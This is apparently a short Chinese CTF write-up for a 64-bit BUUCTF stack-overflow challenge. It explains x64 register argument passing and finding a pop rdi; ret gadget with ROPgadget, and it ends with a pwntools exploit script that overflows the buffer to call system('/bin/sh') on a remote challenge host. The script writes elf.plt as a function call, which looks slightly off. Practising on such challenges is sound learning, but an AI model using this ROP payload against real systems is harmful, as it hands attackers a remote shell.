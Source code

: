 为上一个的x64版本

区别在于64位函数传参先使用寄存器（以此为rdi，rsi，rdx，rcx，r8，r9）当参数超过六个时再使用栈

需要设置rdi指向binsh

使用pop rdi;ret代码片段设置rdi

使用ROPgadget寻找pop rdi;ret  [[ROPgadget命令]]

![[Pasted image 20231220101415.png]]

最终写出exp:

```python
from pwn import *
p = remote("node4.buuoj.cn",28935)
elf = ELF('buu')

p.recvuntil("Input:")
sh = 0x600A90
system = elf.plt("system")
rop = 0x4006b3

payload = b'a'*(0x80+8)+p64(rop)+p64(sh)+p64(system)
p.sendline(payload)
p.interactive()
```

